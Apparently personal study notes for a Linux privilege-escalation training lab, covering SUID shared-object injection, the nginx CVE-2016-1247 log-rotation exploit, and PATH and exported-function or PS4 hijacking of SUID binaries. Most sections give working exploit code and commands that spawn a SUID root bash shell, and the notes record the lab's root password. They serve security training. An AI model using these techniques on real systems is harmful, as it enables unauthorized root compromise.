 #Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo #symlinks   #CVE-2016-1247 #Nginx #EnvironmentVariables #Apache #gcc #Find #strings #env
https://gtfobins.github.io/
# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries. e.g. `/usr/local/bin/suid-so`
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c` (make sure to use tabs not spaces, sometimes errors out)
9. In command prompt type:
```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

[[VulnUniversity - THM]]

---
# Symlinks
#symlinks

[Nginx Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
#CVE-2016-1247 #Nginx

## **Detection**
Linux VM

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.
3. Run `find / -type f -perm -04000 -ls 2>/dev/null`
	1. SUID bit must be set on `/usr/bin/sudo` also to exploit nginx

## **Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type:
```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

---

# Environment Variables #1
#EnvironmentVariables #Apache #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

# Environment Variables #2
#EnvironmentVariables #env #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

## **Exploitation Method #1**
Linux VM

1. In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

## **Exploitation Method #2**
Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```